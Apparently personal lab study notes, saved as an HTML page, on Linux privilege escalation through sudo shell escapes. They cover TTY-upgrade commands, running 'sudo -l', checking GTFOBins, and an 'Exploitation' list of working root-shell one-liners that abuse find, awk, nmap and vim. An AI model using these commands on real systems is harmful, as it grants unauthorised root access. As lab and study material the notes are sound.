

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Sudo shell escaping</title>
</head><body>Escilation via sudo shell escaping 
 
NOTE POINT 
If you land ina shitty shell... 'No TTY present' and 'must be run from terminal' 
 
try &gt;&gt;&gt; <b>/usr/bin/script -qc /bin/bash /dev/null  
</b>Thanks to https://forum.hackthebox.com/t/su-must-be-run-from-a-terminal/1458/4 
 
also google spawning a tty shell cheat sheet.... let supgrade them shells .... netsec is a goodin 
https://rcenetsec.com/shell-spawning/ 
 
also open with  
 
<b>python3 -c &quot;import pty;pty.spawn('/bin/bash')&quot; </b> 
 
Start with <b>sudo -l</b>to see what can be run by the user as sudo without a password 
 
Compare your list with <b>GTFO Bins</b> 
 
https://gtfobins.github.io/ 
 
 
 
we have vim gtfo sudfo has vim 
 
 
 
 
 
 
 
 
You can change the payload on some to get better shells 
 
 
 
 
 
 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: sudo -l 
2. From the output, notice the list of programs that can run via sudo. 
 
Exploitation 
 
Linux VM 
 
1. In command prompt type any of the following: 
a. sudo find /bin -name nano -exec /bin/sh \; 
b. sudo awk 'BEGIN {system(&quot;/bin/sh&quot;)}' 
c. echo &quot;os.execute('/bin/sh')&quot; &gt; shell.nse &amp;&amp; sudo nmap --script=shell.nse 
d. sudo vim -c '!sh' 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
</body></html>